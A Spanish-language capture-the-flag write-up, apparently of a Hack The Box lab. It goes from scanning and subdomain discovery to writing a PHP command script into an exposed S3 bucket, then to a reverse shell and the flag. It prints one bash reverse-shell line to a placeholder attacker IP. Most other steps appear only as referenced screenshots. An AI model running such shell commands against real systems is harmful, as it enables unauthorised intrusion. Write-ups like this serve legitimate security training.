 
Primero de todo hacemos un ping a la máquina para comprobar que tenemos conectividad con ella

![[Pasted image 20230814123446.png]]

En este caso si tenemos, y vemos una ttl de 63, por lo que es una máquina Linux

Ahora vamos a realizar el escaneo de puertos

![[Pasted image 20230814123649.png]]

Vemos que tiene abiertos los puertos 22 y 80. El puerto 22 pertenece al servicio ssh, pero ahora veremos la página web a ver que encontramos

![[Pasted image 20230814123809.png]]

Ahora indagamos un poco en la página web.

Ahora vamos a utilizar gobuster para buscar alguna página relacionada

No hemos encontrado nada relevante

***IMPORTANTE***

Hemos encontrado el dominio de correo thetroppers.htb, esto podemos usarlo para redireccionarlo mediante /etc/hosts con la ip que tenemos para ver la web que sale.

Y ahora probamos gobuster de nuevo pero con esta dirección.

***IMPORTANTE***

Hay que cambiar la lista a usar, ya que queremos buscar subdominios en esta ocasión.

![[Pasted image 20230814125047.png]]

Este sería el comando usado
Y este el resultado

![[Pasted image 20230814125137.png]]


Ahora metemos el subdominio al /etc/hosts.

Y nos sale esto

![[Pasted image 20230814125325.png]]


Para interactuar con se bucket, hay que instalar awscli.

Para configurar el aws CLI installation, usamos aws configure.

Lo instalamos y utilizamos lo siguiente para listar las cosas

![[Pasted image 20230814125710.png]]

Ahora creamos un script en php para comprobar si podemos ejecutar comandos dentro del s3:

![[Pasted image 20231102104524.png]]

![[Pasted image 20231102104702.png]]

De esta manera le subimos en script en php y ahora vamos a comprobar si ha funcionado:

![[Pasted image 20231102104739.png]]

En este caso esta vacío por un fallo mío pero si que deja subir scripts, por lo que ahora subiremos uno que nos de una bash.
*NOTA*

No es fallo mío, es que para ejecutar había que modificar la url:

![[Pasted image 20231102104905.png]]

En este caso no ejecuta id, pero podemos ejecutar otros comandos para comprobar:

![[Pasted image 20231102104946.png]]

Y ahora vamos a enviarnos una bash por un puerto nuestro:

bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1

Este es el script que se suele utilizar, y el cual vamos a ejecutar.

Vamos a crear el script primero:

![[Pasted image 20231102105324.png]]

Ahora ya lo tenemos creado. Y como vemos, nos vamos a pasar la shell por el puerto 1337, por lo que tendremos que ponernos en escucha por este puerto en otra terminal:

![[Pasted image 20231102105417.png]]

Y ahora hay que ponerse en escucha por otro puerto con python3: 

![[Pasted image 20231102105625.png]]

Y ejecutamos lo siguiente:

![[Pasted image 20231102105644.png]]

***Importante***

Hay que ejecutar el server de python justo donde tenemos ubicado shell.sh

Una vez ejecutado nos sale lo siguiente:

![[Pasted image 20231102105847.png]]

Y ya tenemos acceso a la máquina:

![[Pasted image 20231102105943.png]]

Y ahí encontramos la flag.




